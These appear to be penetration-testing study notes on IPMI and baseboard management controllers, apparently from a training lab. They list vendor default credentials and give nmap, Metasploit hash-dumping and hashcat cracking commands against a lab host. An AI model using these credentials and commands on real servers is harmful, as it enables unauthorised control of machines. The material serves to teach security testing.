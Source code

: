 ## Intelligent Platform Management Interface (IPMI)

Standardised system for management and monitoring 
Works independently of the hosts BIOS, CPU and firmware. 
Allows admins to monitor systems even if they are powered off. 

Typically used in 3 ways:
	- Before the OS has booted to modify BIOS settings
	- When the host is fully powered down
	- Access to a host after a system failure

Can monitor things such as:
	System Temp
	Voltage 
	Fan status 
	power supplies. 
	Review hardware logs and alerting using #SNMP.
	
Host system can be powered off but off #IPMI needs a power source and LAN connectivity.

Required Components: 
	- Baseboard Management Controller (BMC) - A micro-controller and essential component of an IPMI
	- Intelligent Chassis Management Bus (ICMB) - An interface that permits communication from one chassis to another
	- Intelligent Platform Management Bus (IPMB) - extends the BMC
	- IPMI Memory - stores things such as the system event log, repository store data, and more
	- Communications Interfaces - local system interfaces, serial and LAN interfaces, ICMB and PCI Management Bus

Systems are known as Baseboard Management Controllers(BMCs)
Access to the BMC is nearly the same as physical access.
Many have a web based management console 

# Footprinting 
### Nmap
```shell
sudo nmap -sU --script ipmi-version -p 623 ilo.inlanfreight.local
```

### Metasploit 
```shell
msf6 > use auxiliary/scanner/ipmi/ipmi_version 
msf6 auxiliary(scanner/ipmi/ipmi_version) > set rhosts 10.129.42.195
msf6 auxiliary(scanner/ipmi/ipmi_version) > show options 
msf6 auxiliary(scanner/ipmi/ipmi_version) > run
```

### Default Passwords 

|Product|Username| Password|
|---|---|---|
|Dell iDRAC|root|calvin|
|HP iLO|Administrator|randomized 8-character string consisting of numbers and uppercase letters|
|Supermicro IPMI|ADMIN|ADMIN|

### Try default passwords on any system

### Dangerous Settings
http://fish2.com/ipmi/remote-pw-cracking.html

Crack with hashcat 
```shell
hashcat -m 7300 ipmi.txt -a 3 ?1?1?1?1?1?1?1?1 -1 ?d?u
```

No direct fix to this exploit. 
Only to use very long difficult to crack passwords or network segmentation rules.
Passwords may be reused. 

### Dump Hashes with MSF 
```shell-session
msf6 > use auxiliary/scanner/ipmi/ipmi_dumphashes 
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > set rhosts 10.129.42.195
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > show options 
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > run
```
